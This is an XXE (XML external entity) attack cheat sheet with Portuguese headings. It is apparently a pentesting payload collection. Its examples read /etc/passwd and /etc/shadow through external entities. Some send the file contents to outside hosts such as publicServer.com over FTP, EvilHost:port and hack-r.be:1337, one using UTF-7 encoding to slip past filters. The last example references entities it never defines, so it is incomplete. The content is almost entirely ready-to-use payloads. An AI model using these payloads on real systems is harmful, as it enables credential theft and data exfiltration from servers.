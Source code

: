 ### XXE to LFI
```
# Exemplo 1

<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```
```
# Exemplo 2

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```
```
# Exemplo 3 

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```
### XXE to UTF7
```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

### XXE Out-of-Band com FTP
```
# Exemplo 1
# Payload na requisição

<!DOCTYPE data [
<!ENTITY % remote SYSTEM "http://publicServer.com/parameterEntity_sendftp.dtd">
%remote;
%send;
]>
<data>4</data>

# File stored on http://publicServer.com/parameterEntity_sendftp.dtd

<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">
%param1;
```
```
# Exemplo 2 
# Payload na requisição 

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
```